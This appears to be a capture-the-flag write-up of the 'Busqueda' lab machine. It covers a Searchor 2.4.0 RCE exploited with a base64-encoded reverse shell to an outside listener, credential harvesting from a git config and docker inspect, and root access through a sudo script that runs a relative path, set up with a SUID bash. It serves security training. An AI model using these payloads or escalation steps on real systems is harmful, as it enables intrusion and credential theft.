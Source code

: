 ## Basic NMAP Scan:
```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Busqueda]
└─$ nmap 10.129.42.141 -T4                  
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-15 21:10 +0545
Nmap scan report for 10.129.42.141
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 29.42 seconds

```

## Let's start Enemuration with port 80:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Busqueda]
└─$ curl 10.129.42.141     
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>302 Found</title>
</head><body>
<h1>Found</h1>
<p>The document has moved <a href="http://searcher.htb/">here</a>.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at 10.129.42.141 Port 80</address>
</body></html>

```
Need to add this to /etc/hosts file.

After browsing the site, we can find on the footer:
Powered by Flask and [Searchor 2.4.0](https://github.com/ArjunSharda/Searchor) which points to the github repo, on security advisory we can find that there is a [RCE](https://github.com/ArjunSharda/Searchor/security/advisories/GHSA-66m2-493m-crh2) vulnerability in the version 2.4.0.

## Exploitation:

We can use [following](https://github.com/V35HR4J/Searchor-2.4.1-RCE) exploit:

```bash
┌──(parallels㉿V35HR4J)-[~/tjnull/Busqueda/Searchor-2.4.1-RCE]
└─$ python3 exploit.py http://searcher.htb/search "echo c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjMvMTIzNCAwPiYx|base64 -d|bash"
```

```bash
┌──(parallels㉿V35HR4J)-[~]
└─$ rev 1234
Tun0 IP: 10.10.14.23
python3 -c 'import pty;pty.spawn("/bin/bash")'
listening on [any] 1234 ...
connect to [10.10.14.23] from searcher.htb [10.129.42.141] 60406
sh: 0: can't access tty; job control turned off
$ whoami
svc
```

## Privilege Escalation:

We can find git config file in /var/www/app/.git/config

```bash
svc@busqueda:/var/www/app/.git$ cat config 
cat config
[core]
        repositoryformatversion = 0
        filemode = true
        bare = false
        logallrefupdates = true
[remote "origin"]
        url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
        fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
        remote = origin
        merge = refs/heads/main

```

The password for svc user is reused, also we found new subdomain as gitea.searcher.htb, let's quickly add it to our /etc/hosts and further enemurate on ssh if we can find something.

```bash
svc@busqueda:~$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *

```
Let's try to undertsand what this script does:

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py test
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED         STATUS          PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   11 months ago   Up 39 minutes   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   11 months ago   Up 39 minutes   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

Okay so we know that, we can run docker-inspect command, it is possible to leak the config with the command, found through [this](https://docs.docker.com/engine/reference/commandline/inspect/) article about docker.

```bash
svc@busqueda:~$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' 960873171e2e|jq .
{
  "Hostname": "960873171e2e",
  "Domainname": "",
  "User": "",
  "AttachStdin": false,
  "AttachStdout": false,
  "AttachStderr": false,
  "ExposedPorts": {
    "22/tcp": {},
    "3000/tcp": {}
  },
  "Tty": false,
  "OpenStdin": false,
  "StdinOnce": false,
  "Env": [
    "USER_UID=115",
    "USER_GID=121",
    "GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
    "GITEA__database__USER=gitea",
    "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
    "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
    "USER=git",
    "GITEA_CUSTOM=/data/gitea"
  ],
  "Cmd": [
    "/bin/s6-svscan",
    "/etc/s6"
  ],
  "Image": "gitea/gitea:latest",
  "Volumes": {
    "/data": {},
    "/etc/localtime": {},
    "/etc/timezone": {}
  },
  "WorkingDir": "",
  "Entrypoint": [
    "/usr/bin/entrypoint"
  ],
  "OnBuild": null,
  "Labels": {
    "com.docker.compose.config-hash": "e9e6ff8e594f3a8c77b688e35f3fe9163fe99c66597b19bdd03f9256d630f515",
    "com.docker.compose.container-number": "1",
    "com.docker.compose.oneoff": "False",
    "com.docker.compose.project": "docker",
    "com.docker.compose.project.config_files": "docker-compose.yml",
    "com.docker.compose.project.working_dir": "/root/scripts/docker",
    "com.docker.compose.service": "server",
    "com.docker.compose.version": "1.29.2",
    "maintainer": "maintainers@gitea.io",
    "org.opencontainers.image.created": "2022-11-24T13:22:00Z",
    "org.opencontainers.image.revision": "9bccc60cf51f3b4070f5506b042a3d9a1442c73d",
    "org.opencontainers.image.source": "https://github.com/go-gitea/gitea.git",
    "org.opencontainers.image.url": "https://github.com/go-gitea/gitea"
  }
}
```
We can find the password is reused, and now we have access to gitea server as administrator through this password.

Now, reviewing the code for scripts, we can find that we can actually run any command as root through full-checkup flag, below is the code snippet:

```python
    elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
```

Let's create a file named full-checkup.sh in /tmp directory and add the following code:

```bash
#!/bin/bash
chmod u+s /bin/bash
```

Now we are root:

```bash
svc@busqueda:/tmp$ chmod +x full-checkup.sh 
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup

[+] Done!
svc@busqueda:/tmp$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash
svc@busqueda:/tmp$ /bin/bash -p
bash-5.1# cat /root/root.txt
a1e86be8967140570dddb993eec3b801
```

Takeaway:
- Developers are lazy, they reuse the passwords.
- Always check for the version of the software, and check for any exploits.